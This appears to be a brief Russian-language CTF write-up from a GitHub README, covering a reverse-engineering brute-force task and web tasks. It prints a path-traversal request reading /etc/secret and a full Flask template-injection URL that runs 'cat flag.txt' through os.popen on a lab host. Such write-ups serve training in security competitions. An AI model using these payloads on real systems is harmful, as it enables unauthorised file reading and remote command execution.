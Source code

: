 # nto_4fun_2024
REV-1. В таске был encrypt ввода, после чего его версия сравнивалась с заданной
 ![Screenshot_2024-03-21_14_07_43](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/f9103d65-ba78-4d0e-915e-e0956b53be2c)
Для решения таска необходимо было забрутить его значения.
- **Код приложен в файле с названием REV-1**

## Web-1
1. burp
2. target
3. download запрос на file1.txt
4. hint1: указание что флаг в /etc/secret
5. LFI /download?file_type=../../etc/secret
6. Profit!
![web1 1](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/68bb735e-ca77-4362-b6ce-46de99d7310d)
![web1 2](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/b980683b-8f5e-42af-bad5-7112e81a6bf6)


## web2
magic(?)

## web3
403 error bypass(дополнительный / перед flag)
template injection flask
http://192.168.12.11:8001//flag?name={{self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%22cat%20flag.txt%22).read()}}
![web3](https://github.com/Kreedman05/nto_4fun_2024/assets/164340613/14cc0e39-3750-47b6-b74d-4bb765d1c289)


